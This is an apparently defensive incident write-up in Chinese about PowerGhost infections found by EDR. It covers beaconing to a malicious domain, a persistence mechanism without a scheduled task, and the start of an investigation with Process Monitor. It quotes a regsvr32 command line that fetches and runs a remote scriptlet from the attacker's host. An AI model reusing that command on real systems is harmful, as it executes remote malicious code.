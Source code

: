 ```yaml
---
nav_path_prefix: Security > Incidents >
---
```


# PowerGhost

## 事件背景

EDR 记录多台主机频繁访问恶意域名 `auth[.]to0ls[.]com`，匹配 PowerGhost IoC。

记录命令行：

```
C:\\Windows\\system32\\regsvr32.EXE /u /s /i:http://auth.to0ls.com:443/antivirus.php scrobj.dll
```

记录父进程命令行：

```
C:\\Windows\\system32\\svchost.exe -k netsvcs
```

查看历史告警，主机每二十分钟一次 DNS 查询，时间非常规律。但在 EDR 中没有发现计划任务，`%SystemRoot%\System32\Tasks` 目录下也没有对应文件。

## 排查过程

详细的病毒分析写在[恶意软件分析::PowerGhost](../malwares/powerghost.md)，排查工作围绕着主机受感染表现和病毒分析时确认的恶意行为进行。

这类告警出现了几个月，过往的手段是 EDR 远程查杀或者让对应人员在终端上查杀一遍。可能是因为多次查杀，本地已经找不到病毒文件，只剩下持久化任务，至少我到场的时候是这样。

登录服务器，使用 [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) 监控启动 `regsvr32.exe` 的进程，发现每隔 20 分钟就有一次：

![procmon_1](../../assets/images/sec/incidents/powerghost/procmon_1.png)

启动命令行与 EDR 记录一致：

![procmon_2](../../assets/images/sec/incidents/powerghost/procmon_2.png)
